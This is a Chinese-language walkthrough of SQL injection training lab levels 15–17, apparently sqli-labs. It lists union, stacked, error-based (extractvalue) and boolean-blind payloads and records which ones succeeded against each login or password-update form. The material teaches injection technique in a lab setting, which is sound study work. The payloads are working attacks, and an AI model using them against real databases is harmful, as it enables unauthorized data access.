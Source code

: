 # 15-17
## 第十五关
多次尝试后使用`amdin'and 1=1#`成功登录，因此判定是以单引号包裹的字符型注入
尝试union注入
```
admin' order by 2# 
-1' union select database(),2#
```
仅回显登录成功与失败，union注入失败
尝试堆叠注入
```
admin';select database();#
```
回显登录失败
尝试报错注入
```
admin'and extractvalue(1,concat(0x7e,database(),0x7e))#
```
无报错信息
尝试布尔盲注
```
admin' and (length(database())>6)#
```
回显登录成功，存在布尔盲注
编写脚本，注出数据
## 第十六关
尝试多次无果，查看源码，发现使用`("")`包裹变量，
无回显信息，仅有登录成功与否
尝试union注入
```
admin") order by 3# 查出两列
-1") union select database(),2#
```
无数据库信息，仅能登录成功
尝试堆叠注入
```
admin");select database();#
```
登录失败
尝试报错注入
```
admin") and extractvalue(1,concat(0x7e,,database()0x7e))#
```
登录失败，无数据库信息
尝试布尔盲注
```
admin") and (length(database())>7)#
admin") and (substr(database(),4,1)='u')#
admin") and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='m')#
```
通过更换不同的长度，能够盲注出数据库信息
使用脚本爆出数据库信息
## 第十七关
该关的场景是，更新用户密码的场景。用户名需存在才可注入出数据
该关使用以前的方式无法注入成功，通过查看后端代码后发现，后端对uname的值进行了转义过滤，而没有对passwd的值进行过滤，同时后端的处理逻辑是，先将uname的值取出来，到数据库中进行查询，如果存在该用户，则进行更新passwd字段操作。因此，如果用户不存在则无法通过报错注入爆出数据库信息。
该场景下的sql语句为update，因此无法通过union注入回显结果。
在uname字段输入admin的情况，对passwd字段进行探测
输入`'`报错
发现存在字符型sql注入
>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin'' at line 1
尝试堆叠注入
```
';select database();#
```
报错
尝试报错注入
```
' and extractvalue(1,concat(0x7e,database(),0x7e))#
1' and (extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)))#
```
成功爆出信息，后续使用报错注入即可




